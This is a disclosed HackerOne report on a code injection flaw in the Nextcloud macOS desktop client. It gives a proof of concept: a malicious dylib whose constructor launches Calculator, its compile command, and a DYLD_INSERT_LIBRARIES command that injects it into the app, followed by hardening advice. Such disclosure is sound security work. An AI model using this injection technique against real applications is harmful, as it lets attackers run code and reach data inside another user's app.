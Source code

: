 # Code injection in macOS Desktop Client 

## Report Details
- **Report ID**: 633266
- **URL**: https://hackerone.com/reports/633266
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-07-01T17:16:28.195Z
- **Disclosed**: 2020-04-10T09:13:36.619Z

## Reporter
- **Username**: r3ggi-on-h1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
## Vulnerability description

I've identified a code injection vulnerability in your macOS desktop client. Any malicious application, running with standard user permissions is able to exploit this vulnerability and execute code in your application's context.

## Requirements
In order to exploit this vulnerability, a victim has to have a malicious application installed on the device.

## Proof of Concept
To show you the impact I've prepared a proof of concept where malicious application without root permissions is able to inject to Nextcloud process and open the calculator.

### 1. At first, create a malicious dylib (malicious.m) with following contents:
```objc
#include <Foundation/Foundation.h>

__attribute__((constructor)) static void pwn() {
    
   puts("\n\nHELLO FROM THE DYLIB!\n\n");
    
   NSTask *task = [[NSTask alloc] init];
   task.launchPath = @"/Applications/Calculator.app/Contents/MacOS/Calculator";
   [task launch];
    
}
```

### 2. Compile it using gcc
```bash
gcc -dynamiclib -undefined suppress -flat_namespace malicious.m -o malicious.dylib -compatibility_version 10.10.10 -lobjc -framework Foundation
```

### 3. Inject the library using DYLD environment variable. (This is the easiest way to reproduce the vulnerability)
```bash
DYLD_FORCE_FLAT_NAMESPACE=1 DYLD_INSERT_LIBRARIES=./malicious.dylib /Applications/nextcloud.app/Contents/MacOS/nextcloud
```

### 4. Calculator should be opened as shown on attached screenshot


## Recommendations
Assuming that the desktop client has been compiled using XCode, a developer needs to turn on "Hardened Runtime" capability making sure that *Allow DYLD Environment Variables* option is **turned off**. Another way to disallow the DYLD Environement variables is adding a *_RESTRICTED* segment to the application binary.

## References
Privilege escalation in Keybase using this technique
https://hackerone.com/reports/470003

Apple Docs - Hardened runtime entitlements
https://developer.apple.com/documentation/security/hardened_runtime_entitlements

## Important notes
* Physical access is **not** required to exploit this vulnerability.
* Applications do **not** need root permission to open other applications with *DYLD_INSERT_LIBRARIES* enviornment variable -  [execve documentation](https://developer.apple.com/library/archive/documentation/System/Conceptual/ManPages_iPhoneOS/man2/execve.2.html).

## Impact

Code execution in the application's context. Any sensitive resource that may be accessed via the application may be stolen. Attacker is also able to perform any action that user may perform from the app.

## Attachments
- nextcloud.png
